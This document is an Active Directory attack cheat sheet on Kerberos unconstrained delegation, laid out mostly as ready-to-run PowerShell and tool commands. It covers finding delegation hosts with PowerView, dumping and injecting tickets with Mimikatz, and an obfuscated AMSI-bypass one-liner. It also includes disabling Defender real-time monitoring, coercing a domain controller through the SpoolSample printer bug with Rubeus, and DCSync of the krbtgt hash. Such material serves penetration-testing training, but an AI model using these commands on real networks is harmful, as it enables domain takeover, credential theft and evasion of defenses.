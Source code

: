 ```yaml
---
layout: page
title: "# AD Uncontrained Delegation"
permalink: /ad_cheatsheets/ad_uncontrained_delegation
---
```


# AD Uncontrained Delegation

## General Info

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4e002228-fee5-4f97-ae56-15357969177c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4e002228-fee5-4f97-ae56-15357969177c/Untitled.png)

## Find Servers that has unconstrained delegation

```powershell
#PowerView
Get-NetComputer -Unconstrained | select -ExpandProperty name
#OR Powerview All Info (find - TRUSTED_FOR_DELEGATION to find computer that has unconstrained delegation)
Get-DomainComputer -Unconstrained
```

We need to have local admin priv on the device that has Uncontstrained Delegation rights

## MimiKatz - Get all tickets:

*If no tickets are present we might need to enforce them by activating the app that needs unconstrained delegation. Or you might choose to exploit the printerbug - PrintSpoofer

```powershell
privilege::debug

sekurlsa::tickets
```

## MimiKatz - Export Tickets and import them into our process:

```powershell
privilege::debug

sekurlsa::tickets /export

kerberos::ptt %NAME OF EXPORTED TICKET%.kirbi

#OR in a oneliner
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user648\[0;334d6c]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbii"'

#Use PSEXEC to test access to domain controller:
C:\Tools\SysinternalsSuite\PsExec.exe \\dc01 cmd
```

## Mimikatz On another Session

Use below approach to connect to another session and use MimiKatz

```powershell
powershell -ep bypass

$sess = New-PSSession -ComputerName dcorp-appsrv.dollarcorp.moneycorp.local

Enter-PSSession -Session $sess

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

exit

Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession -Session $sess

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

ls | select name
```

When we don't see a ticket, we need to trick DA

```powershell
#Using PowerSploit UserHunter
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

## Using Rubeus Monitor For Authentication

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Copy-Item -ToSession $appsrv1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\appadmin\Downloads

.\Rubeus.exe monitor /interval:5/nowrap

. .\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

```

Rubeus - Compiled x64 - .NET 4.7

[Rubeus.zip](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dfa51442-deac-429b-a602-a306de77dbd4/Rubeus.zip)

## Exploiting Spoolss (printer) for non-interactige escalation

We do this by retrieving the Domain Controllers computer account ticket.

```powershell
#Check it the spooler is listening (port 445):
dir \\dc01\pipe\spoolss

#Launch Rubeus in monitor mode to refresh every 5 seconds to listen to the domain controller:
Rubeus.exe monitor /interval:5 /filteruser:DC01$

#Launch a second CMD and trigger the compiled version of https://github.com/leechristensen/SpoolSample to trigger the print spooler change notification with SpoolSample.exe by specifying the target machine and capture server. Sometimes the tool needs to be run multiple times before the change notification callback takes place:
SpoolSample.exe DC01 APPSRV01

#Read the ticketname and inject it back in our own process:
Rubeus.exe ptt /ticket:%TICKETNAME%

#Having the domain controller Computer Ticket we are not a domain admin but we can perform a dcsync to dump the password hash of any user:
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

Download SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

[SpoolSample.zip](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6adc162f-d776-4fb1-915e-696b25541d6b/SpoolSample.zip)

* We can also use krbrelayx - [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx) to do all the above from our Kali machine.

[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

[Kerberos Unconstrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
